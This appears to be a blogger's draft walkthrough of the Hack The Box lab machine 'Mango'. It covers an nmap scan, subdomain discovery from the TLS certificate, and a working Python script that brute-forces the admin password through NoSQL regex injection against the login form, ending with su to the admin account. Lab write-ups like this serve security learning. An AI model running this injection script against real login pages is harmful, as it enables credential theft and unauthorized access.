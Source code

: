 ```yaml
---
title: "Hack The Box: Mango"
date: DATE
draft: true
tags: ["pentesting","htb"]
---
```


Hack the Box is a website for  pentesting. Mango was the first  box I got user access to! First I did a port scan to see what services were running. 
```
namp -sC -sC -oA mango 10.10.10.162
# Nmap 7.80 scan initiated Wed Dec 18 10:44:55 2019 as: nmap -sC -sV -oA mango 10.10.10.162
Nmap scan report for 10.10.10.162
Host is up (0.030s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 18 10:45:11 2019 -- 1 IP address (1 host up) scanned in 15.62 seconds
```


From the scan I knew there were two websites and ssh was running. The first thing I did was look at what was hosted on port 80 and 443.  On port 80 I didn't find anything. But I port 443 I found a website that looked like a clone of the google search page.

![search page](/img/mango/search.png)

The only link on the page that went anywhere was the Analytics button.  which I poked around on. I was a type of business analytics software called [Mango Solutions](https://mango-solutions.com).
![analytics screenshot](/img/mango/analytics.png)


I looked up mango in [exploit db](https://www.exploit-db.com) but I didn't find anything that was applicable. I tried uploading malformed csvs to see if that would do anythin but nope. I think took a look at the ssl certificate and found another subdomain.
![cert.png](/img/mango/cert.png)
So I changed my /etc/hosts to include the new domain.
```
10.10.10.162 staging-order.mango.htb
10.10.10.162 mango.htb
```
When I pointed the browser at staging-order.mango.htb. I found a login page.
![login screen](/img/mango/login.jpg)
I then tried to to different types of injections on the login in page. I eventually stumbled upon the nosql injections on [payload all things](https://github.com/swisskyrepo/PayloadsAllTheThings). And I was able to get passwords for the accounts user and admin.
``` python
import requests
import string

username = 'admin'
password = ''
url = "http://staging-order.mango.htb/"
restart = True
headers={'content-type': 'application/json'}

while restart:
        restart = False

        for character in string.printable:
            if character not in ['*', '+', '.', '?', '|']:
                payload = password + character
                post_data = {'username':username,
                             'password[$regex]':"^" + payload,
                             'login':'login'}
                print(payload)
                r = requests.post(url,
                                  data=post_data,
                                  allow_redirects=False)

                if r.status_code == 302:
                    print(payload)
                    restart = True
                    password = payload

                    if len(password) == 20:
                        print("\npassword: " + payload)

                        exit(0)
                    break
```
This script works because we can make unauthenticated requests to mango db. By using a regular expression matches on the first characters of the password. When we start with an empty password we check if the password starts with a or with b and so on. The http status code 302 tells us that there was a match which lets us enumerate the user passwords. Using the admin creds I was an unable to  ssh onto the box.  But I was able to get onto to the box using the mangos creds. I realized that the `user.txt` was only readable by the admin account. I tried logging in locally using the admin creds and I got access to the user.txt.
```
su admin
```




